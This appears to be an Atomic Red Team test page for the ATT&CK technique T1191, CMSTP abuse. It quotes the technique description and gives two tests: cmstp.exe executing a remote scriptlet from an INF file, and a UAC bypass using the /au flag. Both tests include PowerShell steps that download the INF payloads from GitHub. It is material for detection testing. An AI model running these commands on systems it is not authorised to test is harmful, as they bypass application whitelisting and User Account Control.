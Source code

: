 # T1191 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1191)
<blockquote>The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

Adversaries may supply CMSTP.exe with INF files infected with malicious commands. (Citation: Twitter CMSTP Usage Jan 2018) Similar to [Regsvr32](https://attack.mitre.org/techniques/T1117) / ”Squiblydoo”, CMSTP.exe may be abused to load and execute DLLs (Citation: MSitPros CMSTP Aug 2017)  and/or COM scriptlets (SCT) from remote servers. (Citation: Twitter CMSTP Jan 2018) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018) This execution may also bypass AppLocker and other whitelisting defenses since CMSTP.exe is a legitimate, signed Microsoft application.

CMSTP.exe can also be abused to [Bypass User Account Control](https://attack.mitre.org/techniques/T1088) and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Atomic Tests

- [Atomic Test #1 - CMSTP Executing Remote Scriptlet](#atomic-test-1---cmstp-executing-remote-scriptlet)

- [Atomic Test #2 - CMSTP Executing UAC Bypass](#atomic-test-2---cmstp-executing-uac-bypass)


<br/>

## Atomic Test #1 - CMSTP Executing Remote Scriptlet
Adversaries may supply CMSTP.exe with INF files infected with malicious commands

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_path | Path to the INF file | path | PathToAtomicsFolder&#92;T1191&#92;src&#92;T1191.inf|


#### Attack Commands: Run with `command_prompt`! 
```
cmstp.exe /s #{inf_file_path}
```



#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_path})
##### Check Prereq Commands:
```
if (Test-Path #{inf_file_path}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{inf_file_path}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191.inf" -OutFile "#{inf_file_path}"
```




<br/>
<br/>

## Atomic Test #2 - CMSTP Executing UAC Bypass
Adversaries may invoke cmd.exe (or other malicious commands) by embedding them in the RunPreSetupCommandsSection of an INF file

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_file_uac | Path to the INF file | path | PathToAtomicsFolder&#92;T1191&#92;src&#92;T1191_uacbypass.inf|


#### Attack Commands: Run with `command_prompt`! 
```
cmstp.exe /s #{inf_file_uac} /au
```



#### Dependencies:  Run with `powershell`!
##### Description: INF file must exist on disk at specified location (#{inf_file_uac})
##### Check Prereq Commands:
```
if (Test-Path #{inf_file_uac}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```
New-Item -Type Directory (split-path #{inf_file_uac}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1191/src/T1191_uacbypass.inf" -OutFile "#{inf_file_uac}"
```




<br/>
